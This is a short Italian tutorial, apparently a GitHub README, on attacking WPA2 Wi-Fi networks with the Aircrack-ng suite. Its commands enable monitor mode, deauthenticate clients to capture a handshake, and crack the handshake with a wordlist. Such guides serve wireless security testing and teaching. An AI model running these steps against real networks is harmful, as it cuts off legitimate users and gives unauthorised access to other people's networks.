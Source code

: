 # AIRCRACK-NG - ATTACCO WPA2

## Requisiti
* Scheda di rete con supporto Monitor Mode
* Kali Linux / Parrot OS / Distro Linux compatibili
* Aircrack-NG
* Tutti i pacchetti di Aircrack-NG
* Dizionario password (WordList), consigliato rockyou.txt

## Utilizzo generale

1. **Abilitare la modalità monitor sulla scheda di rete**

> $ airmon-ng list
> $ airmon-ng start [nome interfaccia]

2. **Scansionare le reti disponibili con Airodump-NG**

> $ airodump-ng [nome interfaccia]

3. **Utilizzare Airodump-NG e Aireplay-NG per catturare l'handshake**

Terminale 1 (Airodump):
> $ airodump-ng -c [channel] --bssid [bssid] -w [nome-file] [nome interfaccia]
  
Terminale 2 (Aireplay):
> $ aireplay-ng -0 [numero attacchi] -a [bssid] [nome interfaccia]

4. **Crackare il file .CAP contentente l'handshake tramite Aircrack-NG e la wordlist.txt scelta**
> $ aircrack-ng -a 2 -b [bssid] -w [worldlist.txt] [file .cap]
